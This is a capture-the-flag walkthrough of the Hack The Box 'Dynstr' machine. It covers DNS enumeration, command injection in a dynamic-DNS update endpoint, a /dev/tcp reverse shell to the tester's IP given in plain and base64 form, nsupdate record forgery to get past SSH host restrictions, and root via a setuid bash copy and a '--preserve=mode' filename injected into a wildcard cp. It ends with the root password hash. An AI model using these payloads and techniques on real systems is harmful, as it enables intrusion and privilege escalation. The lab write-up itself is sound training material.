```yaml
---
title: "[HTB] Dynstr - Walkthrough"
layout: post
tags: HTB
---
```


# Main points
- DNS query: `dig`
- DNS [Overview](https://www.cloudflare.com/learning/dns/dns-records/)
- encode a payload in base64 and pipe to bash for RCE
- SSH can restrict access from a specific DNS zone `*.infra.dyna.htb`
- `command *`  can be injected for command or parameter with filename
- `chmod +s` to set setuid bit to file, it can be elevated to owner/group
- `bash -p` to run bash privileged

# Writeup
## Enumeration
We start with nmap as usual
* 22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
* 53/tcp open  domain  syn-ack ISC BIND 9.16.1 (Ubuntu Linux)
* 80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))

Let's first start with the DNS port and query the server with a reverse lookup query with  `dig`
`dig @10.10.10.244 -x 10.10.10.244`
We get this
![Pasted image 20210720013314.png](/assets/Pasted%20image%2020210720013314.png)
So we discover these 2 hosts
`dns1.dyna.htb` and `hostmaster.dyna.htb`

let's add them to our `/etc/hosts` file and check the port 80
we go to `http://10.10.10.244/`
![Pasted image 20210720013627.png](/assets/Pasted%20image%2020210720013627.png)

So this is a DNS service, we scroll further down

![Pasted image 20210720013650.png](/assets/Pasted%20image%2020210720013650.png)
Interesting, let's save these creds for beta mode, we see there are other domains, let's add them to our `/etc/hosts` 

We see on the left it says they provide the same API as no-ip.com, so let's check [no-ip.com's  API](https://www.noip.com/integrate/request)

We see there is an endpoint `/nic/update` to send an update, let's use our creds found in beta mode to `no-ip.htb`
Let's fire up Burp Suite and catch the request to `http://no-ip.htb/nic/update` and change the `Authorization` header, as seen in the API documentation of `no-ip.com` to base64 of `username:password`
![Pasted image 20210720181925.png](/assets/Pasted%20image%2020210720181925.png)
We get
![Pasted image 20210720191556.png](/assets/Pasted%20image%2020210720191556.png)
Hmm, let's play a little with the hostname then
This one `dyna.dynamicdns.htb` worked
![Pasted image 20210720191841.png](/assets/Pasted%20image%2020210720191841.png)

When we add `'`  to hostname we get
![Pasted image 20210720192030.png](/assets/Pasted%20image%2020210720192030.png)

So it's probably using `nsupdate` like this
`nsupdate "$IP"`, maybe we can do command injection
We can see
![Pasted image 20210720192650.png](/assets/Pasted%20image%2020210720192650.png)

## Foothold

We have code injection. BUt we can't inject directly our reverse shell 
```bash
/bin/bash -l > /dev/tcp/10.10.14.127/4444 0<&1 2>&1
```
We can encode id in base64, and make the injection decode it and pipe it to bash
Our base64 reverse shell
```base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjcvNDQ0NCAwPiYxIC1uCg==
```

```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTI3LzQ0NDQgMDwmMSAyPiYxCg==
```
We trigger the RCE with
```bash
echo [base64 encoded payload] | base64 -d | bash
```
![Pasted image 20210720200112.png](/assets/Pasted%20image%2020210720200112.png)
And we have a shell
![Pasted image 20210720200203.png](/assets/Pasted%20image%2020210720200203.png)

When we see the `/etc/passwd` file we see there are 2 users
`dyna` and `bindmgr`
![Pasted image 20210720200320.png](/assets/Pasted%20image%2020210720200320.png)

We see in `dyna` home directory
![Pasted image 20210720201117.png](/assets/Pasted%20image%2020210720201117.png)
So we will probably use dyna to get root

We see in `bindmgr` there is a strace file, we see there is a private SSH key but we can't connect with it, because it only accepts hosts from `*.infra.dyna.htb*`

## User

in `.ssh/authorized_keys`
![Pasted image 20210720213940.png](/assets/Pasted%20image%2020210720213940.png)
We see that our IP isn't in the DNS zone (must read more about that didnt understand everything)
So we should update the DNS zone of `*.infra.dyna.htb` with `nsupdate` with our IP, (seen in strace), we see there are keys in `/etc/bind`
```
nsupdate -k infra.key
update add pico.infra.dyna.htb 86400 A 10.10.14.127
update add 127.14.10.10.in-addr.arpa 300 PTR pico.infra.dyna.htb
send
```



And se try to ssh again and it works
![Pasted image 20210720215737.png](/assets/Pasted%20image%2020210720215737.png)
And we have user flag, let's try to get root.

# Priv Esc

We run `sudo -l` and we see
![Pasted image 20210720215922.png](/assets/Pasted%20image%2020210720215922.png)

Let's check the content of this file
![bindmgr.sh](/assets/bindmgr.sh)

So this script checks if there is a file named `.version` in the current directory where it is ran and if it's different than the one in /etc/bind/named/bindmgr, if not, it exits.

Then it copies everything with the command `cp .version *` to `/etc/bind/named.bindmgr`

And all the files copied are owned by root, so the idea is we copy the bash binary to /tmp where we have write access, add a setuid bit to be able to elevate to the owner (which will be root), and to preserve the `s` mode, we can inject the parameter `--preserve=mode` since the command to copy is `cp *` and not `cp ./*` and run `bash -p` to run as privileged user

```bash
cp /bin/bash .
chmod +s bash
echo "" > "--preserve=mode"
sudo /usr/local/bin/bindmgr.sh
/etc/bind/named.bindmgr/bash -p
```
And we have root
# Root hash
`$6$knCJjR0E8SuLyI5.$r7dGtVVY/Z6X0RQKxUvBZY4BQ3DwL7kHtu5YO9cclorPryKq489j2JqN262Ows/aRZvFkQ1R9uQyqoVWeS8ED1`
